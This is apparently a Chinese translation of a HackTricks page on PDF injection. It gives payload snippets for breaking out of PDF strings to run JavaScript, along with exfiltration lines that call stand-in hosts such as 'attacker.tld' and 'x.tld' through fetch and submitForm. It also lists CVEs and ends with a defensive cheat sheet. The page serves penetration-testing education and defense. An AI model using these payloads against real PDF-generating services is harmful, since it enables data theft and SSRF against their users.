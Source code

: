 # PDF 注入

{{#include ../../banners/hacktricks-training.md}}

**如果您的输入在 PDF 文件中被反射，您可以尝试注入 PDF 数据以执行 JavaScript、执行 SSRF 或窃取 PDF 内容。**
PDF 语法极其宽松——如果您能够跳出嵌入您输入的字符串或字典，您可以附加全新的对象（或同一对象中的新键），Acrobat/Chrome 将乐意解析。
自 2024 年以来，一波漏洞赏金报告显示 *一个未转义的括号或反斜杠就足够* 进行完整的脚本执行。

## TL;DR – 现代攻击工作流程 (2024)
1. 找到任何用户控制的值，该值最终出现在生成的 PDF 中的 **(括号字符串)**、`/URI ( … )` 或 `/JS ( … )` 字段中。
2. 注入 `) `（关闭字符串），后跟下面的原语之一，并以另一个开括号结束以保持语法有效。
3. 将恶意 PDF 发送给受害者（或发送给自动渲染文件的后端服务——非常适合盲漏洞）。
4. 您的有效载荷在 PDF 查看器中运行：
* Chrome / Edge → PDFium 沙箱
* Firefox → PDF.js（参见 CVE-2024-4367）
* Acrobat → 完整的 JavaScript API（可以使用 `this.getPageNthWord` 导出任意文件内容）

示例（注释链接劫持）：
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next (
```
*第一个 `)` 关闭了原始 URI 字符串，然后我们添加一个新的 **Action** 字典，当用户点击链接时，Acrobat 将执行该字典。*

## 有用的注入原语
| 目标 | 有效负载片段 | 备注 |
|------|-----------------|-------|
| **打开时执行 JavaScript** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | 文档打开时立即执行（在 Acrobat 中有效，在 Chrome 中无效）。 |
| **链接时执行 JavaScript** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | 如果你控制一个 `/Link` 注释，在 PDFium 和 Acrobat 中有效。 |
| **盲数据外泄** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | 在 JS 中结合 `this.getPageNthWord` 来窃取内容。 |
| **服务器端 SSRF** | 与上述相同，但目标是内部 URL – 当 PDF 被尊重 `/URI` 的后台服务渲染时非常有效。 |
| **新对象的换行符** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | 如果库允许你注入换行符，你可以创建全新的对象。 |

## 盲枚举技巧
Gareth Heyes (PortSwigger) 发布了一行代码，可以枚举未知文档中的每个对象 – 当你无法看到生成的 PDF 时非常方便：
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
代码遍历 Acrobat DOM，并对每个属性/值对发出外部请求，为您提供一个 *JSON-ish* 的文件转储。有关完整技术，请参见白皮书“可移植数据 **ex**Filtration”。

## 真实世界的漏洞 (2023-2025)
* **CVE-2024-4367** – 在 4.2.67 之前，Firefox 的 PDF.js 中的任意 JavaScript 执行通过精心制作的 `/JavaScript` 操作绕过了沙箱。
* **漏洞赏金 2024-05** – 主要金融科技公司允许客户提供的发票备注，这些备注落在 `/URI` 中；报告在演示 SSRF 到内部元数据主机使用 `file:///` URI 后支付了 1 万美元。
* **CVE-2023-26155** – 通过未清理的 PDF 路径进行的 `node-qpdf` 命令注入显示了在 PDF 层之前转义反斜杠和括号的重要性。

## 防御备忘单
1. **切勿在 `(`…`)` 字符串或名称中连接原始用户输入**。根据 PDF 规范第 7.3 节的要求转义 `\`、`(`、`)`，或使用十六进制字符串 `<...>`。
2. 如果您构建链接，优先使用 `/URI (https://…)`，并对其进行 *完全* URL 编码；在客户端查看器中阻止 `javascript:` 方案。
3. 在后处理 PDF 时，剥离或验证 `/OpenAction`、`/AA`（附加操作）、`/Launch`、`/SubmitForm` 和 `/ImportData` 字典。
4. 在服务器端，使用 *无头转换器*（例如 qpdf –decrypt –linearize）呈现不受信任的 PDF，以去除 JavaScript 和外部操作。
5. 保持 PDF 查看器更新；PDF.js < 4.2.67 和 2024 年 7 月之前的 Acrobat Reader 补丁允许简单的代码执行。

## 参考文献
* Gareth Heyes, “可移植数据 exFiltration – PDF 的 XSS”，PortSwigger Research（更新于 2024 年 5 月）。 <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: PDF.js 中的任意 JavaScript 执行”（2024 年 4 月）。 <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>
{{#include ../../banners/hacktricks-training.md}}
